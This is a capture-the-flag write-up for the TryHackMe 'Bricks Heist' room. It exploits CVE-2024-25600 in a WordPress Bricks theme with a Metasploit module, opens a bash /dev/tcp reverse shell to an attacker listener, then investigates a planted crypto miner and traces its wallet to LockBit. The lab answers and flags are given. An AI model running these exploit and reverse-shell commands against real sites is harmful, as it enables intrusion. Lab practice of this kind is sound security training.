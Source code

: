 # TryHack3M: Bricks Heist

- bricks and rce are clearly going to be clues to solving this challenge

- An nmap scan reveals a Wordpress site using the Bricks theme
- A quick search for vulnerabilities affecting the Bricks theme reveals CVE-2024-25600

- Doing a quick search in metasploit provides a Bricks rce module

```
use exploit/multi/http/wp_bricks_builder_rce

set rport 443
set rhost https://bricks.thm/
set lhost <local ip>
exploit
```

This will create a merpreter session and allow us to grab the first few answers

`cat 650c844110baced87e1606453b93f22a.txt`

Q: What is the content of the hidden .txt file in the web folder?

```
THM{fl46_650c844110baced87e1606453b93f22a}
```

I struggled with my meterpreter session dying anytime I tried to drop into a system shell.
Rather than try to fight with that option I decided to explore other publically avaialable exploit PoCs.
While all worked to some degree or another, they didn't all provide necessary functionality to navigate the system (e.g. not being able to use 'cd').
The following PoC provided the best opportunity to create a stable shell (of the ones tested)
https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT

and allowed a reverse connection with 'bash' and 'nc' using the following commands:

Attacker box:
`nc -lvnp <port>`

Victim machine:
`bash -c 'exec bash -i &>/dev/tcp/<attacker ip>/<YOUR_PORT> <&1'`

Now we can freely move around and get to the rest of the questions

Q: What is the name of the suspicious process?


`systemctl | grep running`

reveals ubuntu.service with a description of "TRYHACK3M"...clearly a red flag but ubuntu.service

Investigating further...

`systemctl cat ubuntu.service`

...shows us that this service is executed by nm-inet-dialog with the line "ExecStart=/lib/NetworkManager/nm-inet-dialog" providing the answer

```
nm-inet-dialog
```

and we already discovered the answer to the following question in the aforementioned service name

Q: What is the service name affiliated with the suspicious process?

```
ubuntu.service
```

Q: What is the log file name of the miner instance?

A logical place to start would be where the binary in the above service resides

`cd /lib/NetworkManager`

```
cd /lib/NetworkManager
ls
```
Here we find an interesting file called inet.conf

`cat inet.conf`

Sure enough, this is our log file

```
inet.conf
```

Q: What is the wallet address of the miner instance?

Once again, let's follow the bread crumbs and see what the log contains. Within the first few lines there is an interesting blob of encoded data;

`head inet.conf`

The encoded data:
```
5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d
```

Dropping this into Cyberchef and running the "Magic" decode option reveals two crypto wallet addresses. The actual recipe steps to get the address are
- From Hex
- From Base64
- From Base64
Only one of these is the valid answer; you can just try both or look up the addresses in a BTC wallet lookup site to confirm the valid one

```
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
bc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa
```

Now to our last question:

Q: The wallet address used has been involved in transactions between wallets belonging to which threat group?

Doing some searching on the wallet address in the previous answer will lead you to the threat group in question.

How I arrived there was to review transactions on the site where I looked up the wallet address (blockchain.com)

reviewing a transaction of 4 bitcoin being sent to another address led me to wallet: "32pTjxTNi7snk8sodrgfmdKao3DEn1nVJM"

Searching on that wallet produced multiple results referencing LockBit

```
lockbit
```